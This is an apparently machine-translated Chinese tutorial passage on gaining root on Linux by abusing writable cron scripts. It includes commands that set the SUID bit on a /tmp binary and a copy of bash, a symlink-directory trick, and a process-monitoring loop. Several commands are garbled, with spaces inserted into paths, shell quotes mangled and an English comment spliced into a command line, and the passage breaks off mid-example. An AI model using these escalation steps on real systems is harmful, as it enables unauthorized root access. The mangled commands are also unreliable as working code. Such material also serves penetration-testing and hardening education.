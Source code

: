 例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：

`8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）`

**使用**pspy**工具（**32**位为**pspy32**，**64**位为**pspy64**）。**

下载链接：`https://github.com/DominicBreuker/pspy`

**利用配置错误的**cronjob**获得**root**访问权限**

`$ ls -la /etc/cron.d `–输出cron.d中已经存在的cronjob

`find / -perm -2 -type f 2> / dev / null `–输出可写文件

`ls -la /usr/local/sbin/cron-logrotate.sh `–让我们确认cron-logrotate.sh是否可写。

### 我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。

那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。

我们在/ tmp目录中编写一个C文件并进行编译。

rootme可执行文件将生成一个shell。

```
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的
$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。
```

### Cron脚本覆盖和符号链接

### 如果**可以修改**由root执行**的cron脚本**，则可以非常轻松地获取shell：

`echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行

/ tmp / bash -p`

如果root用户执行的脚本使用**具有完全访问权限**的**目录**，则删除该文件夹并**创建一个符号链接文件夹到另一个**服务于您控制的脚本的**文件夹**可能会很有用。

`ln -d -s < / PATH / TO / POINT > < / PATH / CREATE / FOLDER >`

### 定时任务

可以监视进程以搜索每1,2或5分钟执行的进程。可以利用它并提升特权。

例如，要**在1分钟内每隔0.1s监视一次**，**按执行次数较少的命令排序**并删除一直执行的命令，可以执行以下操作：

`for i in $(seq 1 610); do ps -e —format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v “[“ | sed ‘/^.{200}./d’ | sort | grep -E -v “\s[6-9][0-9][0-9]|\s[0-9][0-9][0-9][0-9]”; rm /tmp/monprocs.tmp;`

**总结**

由于Cron在执行时以root身份运行/etc/crontab，因此crontab调用的任何命令或脚本也将以root身份运行。当Cron执行的脚本可由非特权用户编辑时，那些非特权用户可以通过编辑此脚本并等待Cron以root特权执行该脚本来提升其特权！

例如，假设下面的行在中/etc/crontab。每天晚上9：30，Cron运行maintenance.shshell脚本。该脚本在root特权下运行。
